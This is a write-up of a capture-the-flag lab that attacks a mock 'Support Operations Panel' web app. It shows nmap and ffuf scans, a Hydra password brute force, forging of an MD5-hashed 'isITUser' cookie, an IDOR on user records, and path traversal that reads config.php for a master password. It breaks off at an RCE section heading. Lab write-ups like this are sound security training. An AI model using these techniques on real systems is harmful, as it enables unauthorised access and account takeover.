## Scenario

> A new internal Support Operations Platform has been deployed to assist IT and helpdesk teams. The application handles user management, internal APIs, and system-level operations. However, security was not the primary focus during development. Several features rely on user-controlled input and weak trust boundaries.
> 
> Pentest and exploit the web application.
> 
> Can you pentest the platform and escalate your access to achieve RCE on the server?

Access via: `http://10.114.177.123`

## Reconnaissance

### Port Scanning

I started with a full TCP port sweep to see what was exposed before narrowing down.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.177.123 -p- -T4
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-20 20:09 +0200
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 81.34% done; ETC: 20:09 (0:00:02 remaining)
Nmap scan report for 10.114.177.123
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.04 seconds
```

**Breakdown:**

- `10.114.177.123` sets the scan target, the lab's IP address
- `-p-` scans all 65,535 TCP ports rather than Nmap's default top-1000
- `-T4` sets the timing template to "aggressive", speeding the scan up on a responsive network

Only SSH and HTTP were open, so I followed up with a version and script scan against just those two ports.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.177.123 -p22,80 -sV -sC     
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-20 20:10 +0200
Nmap scan report for 10.114.177.123
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 18:07:4d:fc:4b:89:90:b3:f4:d8:67:19:a8:40:7b:63 (ECDSA)
|_  256 71:b0:8e:03:f2:ff:a4:4f:c3:56:8e:26:e8:ce:f2:9d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Support Operations Panel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.62 seconds
```

**Breakdown:**

- `10.114.177.123` is the target
- `-p22,80` restricts the scan to the two open ports found in the full scan
- `-sV` probes each open port to fingerprint the service and its version
- `-sC` runs Nmap's default set of safe scripts against the open ports, which here pulled the SSH host keys, the Apache/PHP title, and a note that the `PHPSESSID` cookie had no `httponly` flag set

The `http-title` pointed me at a web app called "Support Operations Panel", so I went to look at the site itself.



The source didn't give much away, so I ran a directory brute force against the webroot.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.114.177.123/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.177.123/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

skins                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 35ms]
includes                [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 35ms]
layout                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 35ms]
js                      [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
                        [Status: 200, Size: 2591, Words: 866, Lines: 93, Duration: 3554ms]
```

`skins`, `includes`, `layout`, and `js` turned up, but nothing in them looked immediately useful.

## Manual Login Testing

Before brute-forcing anything, I sent a test login (`help@support.thm` / `test`) through the form with the browser's dev tools open, to see how the app responded and what the failure condition looked like.



The request confirmed the login is a plain POST to `/` with `email` and `password` fields, and that a failed attempt returns the string "Invalid credentials" on the page — useful for scripting a brute force later.

I also ran Wappalyzer against the site to fingerprint the stack.



That lined up with what Nmap had already shown: Apache, PHP, Ubuntu.

## Brute-Forcing Credentials

The login page's placeholder email, `help@support.thm`, looked like the account to target, and I already knew the failure string from the manual test, so I ran Hydra against the login form with that username fixed.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -l 'help@support.thm' -P /usr/share/wordlists/rockyou.txt 10.114.177.123 http-form-post "/:email=^USER^&password=^PASS^:F=Invalid credentials" -f 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-20 20:19:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.114.177.123:80/:email=^USER^&password=^PASS^:F=Invalid credentials
[80][http-post-form] host: 10.114.177.123   login: help@support.thm   password: snoopy
[STATUS] attack finished for 10.114.177.123 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-20 20:20:00
```

That returned working credentials immediately: `help@support.thm` / `snoopy`. 

## Exploring the Dashboard

Logging in with those credentials landed on a mostly empty dashboard, apart from a "Select Theme" dropdown. Picking the "red" theme changed the page's background and updated the URL to `http://10.114.177.123/dashboard.php?skin=red`, which marked `skin` as a user-controlled parameter worth testing for local file inclusion.



```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.114.177.123/dashboard.php?skin=FUZZ' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.177.123/dashboard.php?skin=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
%00/etc/passwd%00       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
—SNIP—
```

I stopped the scan — every result was coming back as a 302 redirect with a zero-byte body, which looked like noise rather than genuine inclusion, so I added a filter for that response size and reran it.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.114.177.123/dashboard.php?skin=FUZZ' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ic -c -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.177.123/dashboard.php?skin=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

:: Progress: [930/930] :: Job [1/1] :: 92 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Filtered down, nothing in the wordlist came back as a genuine hit, so wordlist-driven LFI against `/etc/passwd`-style paths was a dead end at this point. I checked the page source directly too, and it had nothing of interest.

## Cookie Tampering — isITUser

Looking at the cookies in the Cookie-Editor extension turned up one that stood out: `isITUser`, set to a 32-character hex string.



Base64 and MD5 are commonly used to obfuscate cookies; and with that obviously not being Base64, I wrote it to a file and ran it through John the Ripper:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '68934a3e9455fa72420237eb05902327' > hash

┌──(—REDACTED—㉿kali)-[~]
└─$ john hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Cracked 1 password hash (is in /home/—REDACTED—/.john/john.pot), use "--show"
No password hashes left to crack (see FAQ)

┌──(—REDACTED—㉿kali)-[~]
└─$ john hash --format=Raw-MD5 --show
?:false

1 password hash cracked, 0 left
```

(Had to restart my VM after the crack hence why it was already cracked)

The hash decoded to the string `false`, which meant the cookie was gating something on a boolean. I hashed the string `true` the same way and set the cookie to that value instead.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo -n 'true' | md5sum
b326b5062b2f0e69046810717534cb09 
```

**Breakdown:**

- `echo -n 'true'` prints the literal string `true`, with `-n` suppressing the trailing newline so it isn't hashed along with it
- `| md5sum` pipes that string into `md5sum`, which outputs its MD5 digest

After reloading the dashboard with `isITUser` set to that hash, a "View API" button appeared that hadn't been there before.





## IDOR on /user/{id}



The API hinted that `/user/3` was the current (helpdesk) user's own record. Changing the ID in the URL turned out not to be restricted to that one record.



`/user/1` returned an account with `admin: true` and the email `specialadmin@support.thm` — no password, but a clear target. I also checked `/user/2` out of curiosity.



`/user/2` turned out to be `IT@support.thm`, and not an admin account. There are no accounts beyond 3. 

## Discovering config.php

With an admin email in hand but no password, I went back to enumeration, this time with a wordlist aimed specifically at common PHP filenames to see what else there is other than `dashboard.php`.  

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.114.177.123/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/Programming-Language-Specific/Common-PHP-Filenames.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.177.123/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/Programming-Language-Specific/Common-PHP-Filenames.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.php               [Status: 200, Size: 2591, Words: 866, Lines: 93, Duration: 38ms]
footer.php              [Status: 200, Size: 1253, Words: 377, Lines: 39, Duration: 38ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
info.php                [Status: 200, Size: 73357, Words: 3585, Lines: 821, Duration: 40ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
api.php                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 35ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 4635ms]
:: Progress: [5163/5163] :: Job [1/1] :: 1176 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

`config.php` stood out immediately. Visiting it directly in the browser confirmed a completely blank page, with nothing in the page source either.



### Reading config.php Source via the skin Parameter

Since the `skin` parameter was already known to accept a path, I tried pointing it at `config` directly instead of the wordlist's `/etc/passwd`-style targets, going up one directory level: `dashboard.php?skin=config` first, then `dashboard.php?skin=../config`.





The latter changed the appearance of the site, so I viewed the page source of that response.



That gave a master password: `support@110`.

## Administrator Authentication

With `specialadmin@support.thm` already known as the admin email from the `/user/1` IDOR, the obvious next step was to log in as `specialadmin@support.thm` using the master password found in `config.php`.



That attempt, with the password exactly as found (`support@110`, `@` included), failed.



I tried using that password against `IT@support.thm` too but with no avail. 

Stuck, I looked at a public write-up for the box and found that the master password is meant to have its `@` character stripped before use.

Logging in again as `specialadmin@support.thm` with the password `support110` succeeded, and the dashboard showed an administrator-access confirmation along with a flag.



**Answer:** `—REDACTED—`

## Remote Code Execution via the Time Parameter

Logged in as the administrator, the dashboard footer now showed a second dropdown next to "Select Theme", labelled "Time". Selecting it displayed the current server time.

